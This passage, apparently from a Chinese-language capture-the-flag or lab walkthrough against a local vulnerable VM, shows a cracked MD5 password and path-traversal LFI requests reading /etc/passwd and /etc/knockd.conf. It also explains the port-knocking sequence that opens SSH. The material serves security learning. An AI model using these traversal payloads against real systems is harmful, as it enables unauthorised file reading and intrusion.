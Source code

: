 ```
856f5de590ef37314e7c3bdf6f8a66dc
```

得到的明文密码为：

```
transorbital1
```

![image-20220322154343466](https://gitee.com/xxb667/img/raw/master/img/image-20220322154343466.png)

## 2.7 登录

用账户密码登录之后

发现有一句话，可能存在文件包含漏洞，猜测文件参数为：**file**

```
File does not exist
```

![image-20220322161941348](https://gitee.com/xxb667/img/raw/master/img/image-20220322161941348.png)



```
http://192.168.81.145/welcome.php/?file=../../../../../../etc/passwd
```

![image-20220322162323635](https://gitee.com/xxb667/img/raw/master/img/image-20220322162323635.png)

果然存在LFI漏洞

访问下knockd配置文件

```
http://192.168.81.145/welcome.php/?file=../../../../../../etc/knockd.conf
```

里面的内容

```
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
```

翻译

```
[options] 
		UseSyslog 			
[openSSH] 	
		sequence = 7469,8475,9842   # 打开ssh 22访问的三个操作端口 ；
		seq_timeout = 25 
		command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT  # //-i 命令是将规则插入到最前面，最先生效，以防止过滤所有端口的情况将此条规则吃掉
		tcpflags = syn 
			
[closeSSH] 
		sequence = 9842,8475,7469  	# 关闭ssh 22访问的三个操作端口
		seq_timeout = 25 
		command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT # //SSH使用完后，再将22端口“保护”起来
		tcpflags = syn 
###################################################################################################################
解释：

Options：你可以在此字段中找到knockd的配置选项。正如你在上面屏幕截图中所看到，它使用syslog进行日志记录。

```